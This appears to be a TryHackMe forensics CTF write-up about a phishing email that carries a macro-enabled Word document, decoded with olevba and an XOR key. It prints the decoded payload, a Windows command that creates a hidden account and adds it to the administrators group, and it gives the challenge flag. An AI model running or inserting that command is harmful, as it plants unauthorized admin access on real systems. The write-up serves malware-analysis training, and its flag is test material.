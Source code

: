 ### 🗂️ **Category:** Forensics

### 🎯 **Difficulty:** Easy

### 🏷️ **Flag:** THM{Ev1l\_M\@Cr0}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Opened writing\_template.eml**

✅ Found base64 encoded macro-enabled doc (.docm).

---

#### 2. **Decoded & analyzed file**

```bash
base64 -d > malware.docm
olevba malware.docm
```

✅ Macro revealed XOR encoded byte array.

---

#### 3. **Parsed decoding logic**

* Macro used `"l33t"` as XOR key
* Allocated memory, decoded bytes, and executed shellcode.

---

#### 4. **Manual decoding**

* Wrote Python script to XOR each byte with "l33t".
* Decoded payload revealed command:

```
net user administrrator VEhNe0V2MWxfTUBDcjB9 /add /Y & net localgroup administrators administrrator /add
```

✅ Base64 decoded password:

```
THM{Ev1l_M@Cr0}
```

---

### 💡 **Lessons Learned**

* OLEVBA + manual emulation decodes nearly all macro-based flags.
* Always decode suspicious byte arrays with their revealed XOR keys.

---